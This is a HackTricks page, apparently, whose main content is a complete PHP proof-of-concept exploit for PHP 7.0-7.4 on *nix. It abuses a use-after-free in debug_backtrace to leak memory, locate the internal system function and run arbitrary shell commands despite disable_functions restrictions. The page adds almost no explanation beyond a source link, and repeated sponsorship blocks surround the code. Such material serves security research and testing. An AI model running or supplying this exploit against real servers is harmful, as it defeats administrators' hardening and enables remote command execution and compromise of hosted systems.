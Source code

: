 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# disable\_functions bypass - PHP 7.0-7.4 \(\*nix only\)

## PHP 7.0-7.4 \(\*nix only\)

From [https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}

```



<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


